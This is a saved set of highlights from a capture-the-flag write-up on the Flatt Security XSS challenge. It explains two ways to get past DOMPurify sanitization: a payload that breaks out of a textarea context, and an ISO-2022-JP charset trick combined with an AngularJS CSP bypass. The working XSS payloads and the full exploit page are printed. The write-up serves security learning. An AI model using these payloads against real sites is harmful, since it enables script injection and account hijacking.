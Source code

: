 ```yaml
---
author: blig.one
aliases:
  - Flatt Security XSS Challenge - Writeup
tags:
  - readwise/articles
url: https://blig.one/2024/11/29/flatt-xss-writeup.html?__readwiseLocation=
date: 2025-02-04
---
```

# Flatt Security XSS Challenge - Writeup

![rw-book-cover](https://readwise-assets.s3.amazonaws.com/static/images/article0.00998d930354.png)


## XSS breaking context and DOMPurify by hamayanhamayan

This was the easiest among all the challenges, yet it teaches a nice quirk to achieve [Cross-Site Scripting (XSS)](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/Cross-Site%20Scripting%20(XSS).md) when server-side sanitization is applied.
[View Highlight](https://read.readwise.io/read/01jk8q0swbkbc0vhsgx4p71d5s)

There is some server-side logic where a query parameter is sanitized via my everlasting enemy #DOMPurify. Once sanitized, the payload is reflected into the page in two different points.
```html
 <div class="card">
 <h1>Paper Airplane</h1>
 <p class="message"><%- sanitized %></b></p>
 <form method="get" action="">
 <textarea name="message"><%- sanitized %></textarea>
 <p>
 <input type="submit" value="View 👀" formaction="/" />
 </p>
 </form>
 </div>
```
[View Highlight](https://read.readwise.io/read/01jk8q16ktr13gy1rxfvjpyp2m)

How we can achieve XSS is quite simple. Essentially the sanitization that occurs server side has no context on what will be the context where our payload will be reflected.

By leveraging this assumption we can carefully create an HTML tag that when injected into the browser breaks the context but will be completely ignored by DOMPurify. How? By using [HTML attributes](../../Dev,%20ICT%20&%20Cybersec/Dev,%20scripting%20&%20OS/HTML.md#HTML%20attributes%20vs%20DOM%20properties) and [Different content parsing types](../../Dev,%20ICT%20&%20Cybersec/Dev,%20scripting%20&%20OS/HTML.md#Different%20content%20parsing%20types):
```html
<a id='</textarea><img src=a onerror=alert(origin)>'/>
```
[View Highlight](https://read.readwise.io/read/01jk8q24waa4wyxpqcsej87878)


The content of the `id` attribute will be completely ignored by DOMPurify, but when injected into the page it will break the `textarea` tag:

```html
<div class="card">
	<h1>Paper Airplane</h1>
    <p class="message"><a id="</textarea><img src=a onerror=alert(origin)>"></a></p>
    <form method="get" action="">
        <textarea name="message">&lt;a id="</textarea><img src="a" onerror="alert(origin)">"&gt;
        <p>
            <input type="submit" value="View 👀" formaction="/">
        </p>
    </form>
</div>
```

![](attachments/context-differential-xss.png)
[View Highlight](https://read.readwise.io/read/01jk8q49smdfspb42wdhc51dzw)

## XSS with Charset Shenanigans by kinugawamasato - w/ strellic

```js
function render(html) {
      const sanitizedHtml = DOMPurify.sanitize(html, { ALLOWED_ATTR: [], ALLOW_ARIA_ATTR: false, ALLOW_DATA_ATTR: false });
      const blob = new Blob([sanitizedHtml], { "type": "text/html" });
      const blobURL = URL.createObjectURL(blob);
      input.value = sanitizedHtml;
      window.open(blobURL, "iframe");
      createPermalink(sanitizedHtml);
    }
```
Quite small, isn’t it? It’s difficult to think that there is an XSS in here, but indeed there is.

The main idea is explained in [Encoding Differentials: Why Charset Matters](sonarsource.com%20-%20Encoding%20Differentials%20Why%20Charset%20Matters.md). In short, it explains how the charset affects how the browser parses the HTML on the page. Moreover it highlights a specific encoding `ISO-2022-JP` which can be leveraged to achieve [XSS](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/Cross-Site%20Scripting%20(XSS).md) on pages where the `Content-Type` header has no charset specified.
[View Highlight](https://read.readwise.io/read/01jk8qzp74gtceh3nm99364382)


Apparently if a page opens a window and specify the window name via `window.open('/','whatever')` if the opened page opens a page with the same name, the page will be opened as the ==top window==.

The flow, now, is the following:
- The bot visits a page
- The page executes `window.open('https://challenge-kinugawa.quiz.flatt.training/?html=payload','iframe')`
- The Blob on the challenge page will open the sanitized payload as the top window instead that on the iframe. This will lead to a page with semi-arbitrary content without any ==charset== specified. Hence we can leverage the usage of #ISO-2022-JP in order to achieve XSS

If you have read the research, you may know that the sequence `\x1b(B` is used to switch the parsing to ASCII. Hence, something like `<style>\x1b(B<\x1b(Bimg</style>` should work. And indeed it works. This payload will be left untouched from DOMPurify since it’s considered safe. Spoiler: it’s not.
[View Highlight](https://read.readwise.io/read/01jk8qzydm974v47gsyfy3m9c5)

Now we have all we need. I should point out that there is CSP but is easily bypassable (i’ve used cspbypass.com in order to find the payload)
[View Highlight](https://read.readwise.io/read/01jk8r09ndjha7f80wy2wqe0y8)
> #tools 


```html
<html>
    <head></head>
    <body></body>
    <script>

        const URL = `https://challenge-kinugawa.quiz.flatt.training/?html=`
        const back_to_ascii = `\x1b(B`
        const back_to_jp = `\x1b$B`;
        const payload = `${back_to_jp}
        <style>
            ff${back_to_ascii}<${back_to_ascii}body ng-app ng-csp>
                ${back_to_ascii}<${back_to_ascii}script src='https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.5/angular.js'>${back_to_ascii}<${back_to_ascii}/script>
                    ${back_to_ascii}<${back_to_ascii}input autofocus ng-focus=$event.composedPath()|orderBy:'[].constructor.from([origin],alert)'>
        </style>`

        open(URL+encodeURIComponent(payload),'iframe')


    </script>
</html>
```
[View Highlight](https://read.readwise.io/read/01jk8r185xc4enk2jvvev6zrmp)

